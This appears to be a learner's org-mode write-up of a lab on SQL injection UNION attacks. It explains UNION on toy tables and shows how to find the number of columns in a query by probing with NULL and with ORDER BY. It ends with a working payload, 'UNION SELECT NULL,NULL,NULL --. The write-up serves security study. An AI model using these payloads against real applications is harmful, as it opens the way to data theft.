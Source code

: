 #+title: SQL injection UNION attack, determining the number of columns returned by the query


* About
sql injection into product ~category~ filter

** End Goal
use sql injection ~UNION~ attack to determine the number of columns returned by the query

* UNION in sql
~UNION~ is used to combine the result-set of two or more ~SELECT~ statements

+ users

| username | password  |
|----------+-----------|
| admin    | admin     |
| smith    | pass12345 |
|----------+-----------|

+ product

| itemName | price |
|----------+-------|
| pen      |    10 |
| paper    |    20 |
|----------+-------|

** Sample Query
#+begin_src sql
SELECT username, password FROM users
#+end_src

** output

+-----+-----+-----+-----+-----+
|  admin     |   admin        |
+-----+-----+-----+-----+-----+
|  smith     |   pass12345    |
+-----+-----+-----+-----+-----+

** Query with UNION
#+begin_src sql
SELECT username, password FROM users UNION SELECT itemName,price FROM product
#+end_src

** output

+-----+-----+-----+-----+-----+
|  admin     |   admin        |
+-----+-----+-----+-----+-----+
|  smith     |   pass12345    |
+-----+-----+-----+-----+-----+
|   pen      |    10          |
+-----+-----+-----+-----+-----+
|   paper    |    20          |
+-----+-----+-----+-----+-----+

** Some rule for UNION to work

+ Every ~SELECT~ statement within ~UNION~ must have the same number of columns
+ Same data types in columns
+ Same order in the columns in every ~SELECT~ statement

* Figure out
We have to figure out the correct number of columns first

** way 1
~dummy query~
#+begin_src sql
SELECT something FROM users UNION SELECT NULL
#+end_src
~error => incorrect number of columns~
users table has two columns

#+begin_src sql
SELECT something FROM users UNION SELECT NULL,NULL
#+end_src
~200 response code => correct number columns~

** way 2
#+begin_src sql
SELECT something FROM users order by 2
#+end_src

* Solution
#+begin_src sql
'UNION SELECT NULL,NULL,NULL --
#+end_src
